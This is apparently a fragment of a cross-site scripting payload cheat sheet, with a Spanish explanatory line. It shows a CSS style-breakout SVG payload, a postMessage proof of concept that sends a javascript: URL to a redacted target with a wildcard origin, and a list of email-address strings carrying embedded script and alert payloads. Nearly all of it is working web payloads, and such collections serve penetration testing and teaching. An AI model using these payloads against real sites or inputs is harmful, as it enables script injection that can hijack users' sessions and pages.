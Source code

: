 ### XSS in CSS

```html
<!DOCTYPE html>
<html>
<head>
<style>
div  {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
</head>
  <body>
    <div>lol</div>
  </body>
</html>
```

## XSS in PostMessage

Si el origen de destino es un asterisco *, el mensaje se puede enviar a cualquier dominio que tenga referencia a la página secundaria.

```html
<html>
<body>
    <input type=button value="Click Me" id="btn">
</body>

<script>
document.getElementById('btn').onclick = function(e){
    window.poc = window.open('http://www.redacted.com/#login');
    setTimeout(function(){
        window.poc.postMessage(
            {
                "sender": "accounts",
                "url": "javascript:confirm('XSS')",
            },
            '*'
        );
    }, 2000);
}
</script>
</html>
```

## XSS in Email

```
testacc@gmail.com‘-alert(9)-’

testacc@gmail.com'-alert(9)-'

test+(<script>alert(0)</script>)@gmail.com

test@gmail(<script>alert(0)</script>).com

"<script>alert(0)</script>"@gmail.com

“<script src=x onerror=confirm(8)>”@gmail.com
```
